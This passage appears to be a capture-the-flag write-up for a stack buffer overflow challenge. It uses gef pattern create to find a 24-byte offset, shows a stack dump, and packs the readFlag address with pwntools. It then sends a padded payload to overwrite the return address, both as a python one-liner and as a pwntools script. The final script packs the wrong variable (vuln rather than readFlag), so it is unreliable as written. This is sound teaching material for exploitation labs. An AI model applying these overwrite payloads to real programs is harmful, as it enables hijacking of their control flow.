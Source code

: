 if we look at the stack before input, the rip points to the return address of the vuln function. To run the readFlag function we must replace `0x000000000040074a` by readFlag address.

so try to use the `cyclic` or `pattern create` in gef to find the offset (we know its 24 just to make sure)  

```
pattern create 24
aaaabaaacaaadaaaeaaafaaa
```

lets supply to our input

```
stack
0x00007fffffffdac0│+0x0000: "aaaabaaacaaadaaaeaaafaaa"   ← $rax, $rsp, $r8
0x00007fffffffdac8│+0x0008: "caaadaaaeaaafaaa"
0x00007fffffffdad0│+0x0010: "eaaafaaa"   ← $rbp
0x00007fffffffdad8│+0x0018: 0x0000000000400700  →  <readFlag+41> sar DWORD PTR [rdx+0x20], 1
0x00007fffffffdae0│+0x0020: 0x0000000000000000
0x00007fffffffdae8│+0x0028: 0x00007ffff7deb0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdaf0│+0x0030: 0x00007ffff7ffc620  →  0x0005044800000000
0x00007fffffffdaf8│+0x0038: 0x00007fffffffdbd8  →  0x00007fffffffde18  →  "/mnt/d/Coding/CTFs/CTFHaha/bof1/bof1"
```
before input `$rip : 0x40074a` now `$rip : 0x400700` we have successfully change from 4a to 00 (because if we input 24 character the 25 character will be nullbytes which is \x00)  

So arrange the payload with padding 24 character and the readFlag address (remember we must change it to little endian first)

to change to little endian form you can use `pwntool`

```
>>> import pwn
>>> pwn.p64(0x00000000004006d7)
b'\xd7\x06@\x00\x00\x00\x00\x00'
```

our payload is nonprintable character so how can we arrange it?  
you can use either 
```
python -c "print('A'*24 + '\xd7\x06@\x00\x00\x00\x00\x00')" | ./example1
```
or
```
offeset = 24
readFlag = 0x00000000004006d7
payload = b'A' * offeset
payload += p64(vuln)

use

p.sendline(payload)
p.interactive()
```
to send the payload and enter interactive mode and youll get the flag.
